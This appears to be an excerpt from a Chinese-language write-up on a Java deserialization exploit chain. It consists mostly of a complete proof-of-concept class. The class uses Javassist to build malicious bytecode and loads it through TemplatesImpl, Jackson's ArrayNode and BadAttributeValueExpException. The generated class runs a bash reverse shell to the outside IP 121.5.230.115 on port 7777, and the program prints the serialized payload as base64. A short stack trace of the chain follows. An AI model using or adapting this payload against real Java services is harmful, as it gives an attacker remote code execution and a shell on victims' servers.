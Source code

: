 ```java

public class Test {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }

    public static byte[] getEvilByteCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass cc = pool.makeClass("aaa");
        String cmd = "java.lang.Runtime.getRuntime().exec(new String[]{\"/bin/bash\",\"-c\",\"bash -i >& /dev/tcp/121.5.230.115/7777 0>&1\"});";
        //静态方法
        cc.makeClassInitializer().insertBefore(cmd);

        //设置满足条件的父类
        cc.setSuperclass((pool.get(AbstractTranslet.class.getName())));
        //获取字节码
        byte[] code = cc.toBytecode();
        return code;
    }

    public static String getBase64Data(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }

    public static Object readBase64Data(String base64Data) throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Base64.getDecoder().decode(base64Data));
        ObjectInputStream ois = new ObjectInputStream(byteArrayInputStream);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

    public static void main(String[] args) throws Exception {
        byte[] code = getEvilByteCode();
        TemplatesImpl tpl = new TemplatesImpl();
        setFieldValue(tpl, "_bytecodes", new byte[][]{code});
        setFieldValue(tpl, "_name", "233");
        setFieldValue(tpl, "_tfactory", new TransformerFactoryImpl());

        ObjectMapper mapper = new ObjectMapper();
        ArrayNode arr = mapper.createArrayNode();
        arr.addPOJO(tpl);
//        POJONode pj = new POJONode(tpl);

        BadAttributeValueExpException bad = new BadAttributeValueExpException("1");
        setFieldValue(bad, "val", arr);
        String output = getBase64Data(bad);
        System.out.println(output);
    }
}
```
最终看一下整条链
```
serializeAsField:692, BeanPropertyWriter (com.fasterxml.jackson.databind.ser) ④
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std) 
```